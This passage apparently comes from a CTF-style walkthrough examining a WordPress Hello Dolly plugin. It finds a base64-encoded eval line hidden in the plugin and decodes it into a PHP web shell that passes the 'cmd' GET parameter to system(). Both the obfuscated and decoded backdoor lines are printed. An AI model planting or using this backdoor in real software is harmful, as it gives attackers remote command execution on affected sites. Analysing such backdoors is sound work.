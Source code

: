 ```bash
}

// Now we set that function up to execute when the admin_notices action is called.
add_action( 'admin_notices', 'hello_dolly' );

// We need some CSS to position the paragraph.
function dolly_css() {
	echo "
	<style type='text/css'>
	#dolly {
		float: right;
		padding: 5px 10px;
		margin: 0;
		font-size: 12px;
		line-height: 1.6666;
	}
	.rtl #dolly {
		float: left;
	}
	.block-editor-page #dolly {
		display: none;
	}
	@media screen and (max-width: 782px) {
		#dolly,
		.rtl #dolly {
			float: none;
			padding-left: 0;
			padding-right: 0;
		}
	}
	</style>
	";
}

add_action( 'admin_head', 'dolly_css' );
```

And we got the source code lets look at the source code.

```php
eval(base64_decode('CiBpZiAoaXNzZXQoJF9HRVRbIlwxNDNcMTU1XHg2NCJdKSkgeyBzeXN0ZW0oJF9HRVRbIlwxNDNceDZkXDE0NCJdKTsgfSA='));
```

And we can see this line which is base64 encoded lets convert that line.

```bash
❯ echo 'CiBpZiAoaXNzZXQoJF9HRVRbIlwxNDNcMTU1XHg2NCJdKSkgeyBzeXN0ZW0oJF9HRVRbIlwxNDNceDZkXDE0NCJdKTsgfSA=' | base64 -d

 if (isset($_GET["\143\155\x64"])) { system($_GET["\143\x6d\144"]); } %                                 
```
